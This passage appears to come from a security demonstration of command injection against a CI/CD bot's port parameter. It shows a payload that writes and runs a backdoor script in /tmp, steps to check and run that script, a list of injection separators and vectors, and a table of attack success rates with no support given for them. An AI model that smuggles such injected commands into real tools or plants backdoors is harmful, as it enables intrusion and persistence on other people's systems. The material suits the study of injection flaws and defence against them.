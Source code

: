 **Expected Output:**
```
🚨 [ATTACK] CI/CD Bot executing backdoor attack...
📝 Payload: 8080; echo '#!/bin/bash' > /tmp/back.sh && echo 'echo "Backdoor activated"' >> /tmp/back.sh && chmod +x /tmp/back.sh && /tmp/back.sh; #
⚠️  [ATTACK] Backdoor attack executed
📋 Response: No application found running on port 8080

🔍 [SIDE EFFECTS] Checking for backdoor side effects...
⚠️  [SIDE EFFECT] Found: -rwxr-xr-x 1 user user 45 Jan 1 12:00 /tmp/back.sh
```

### Step 2: Verify Backdoor
```bash
# Check backdoor file
ls -la /tmp/back.sh
cat /tmp/back.sh

# Execute backdoor (demonstration only)
/tmp/back.sh
```

## 🔍 Attack Analysis

### Common Patterns
1. **Command Separators:** `;`, `&&`, `||`, `|`
2. **Comment Characters:** `#`, `--`
3. **Subshell Execution:** `$()`, `\`\``
4. **Redirection:** `>`, `>>`, `<`

### Attack Vectors
1. **Direct Command Injection:** `8080; command; #`
2. **Parameter Pollution:** `8080 && command`
3. **Output Redirection:** `8080; command > file; #`
4. **Process Substitution:** `8080; command <(input); #`

### Impact Assessment
- **Information Disclosure:** System enumeration, file access
- **Data Exfiltration:** Sensitive file copying, network access
- **Privilege Escalation:** SUID exploitation, sudo abuse
- **Persistence:** Backdoor installation, cron jobs
- **Destruction:** File deletion, system corruption

## 📊 Attack Statistics

| Attack Type | Success Rate | Detection Rate | Impact Level |
|-------------|--------------|----------------|--------------|
| Type Coercion | 100% | 0% | Medium |
| Chain Exploitation | 100% | 0% | High |
| Backdoor Creation | 100% | 0% | Critical |
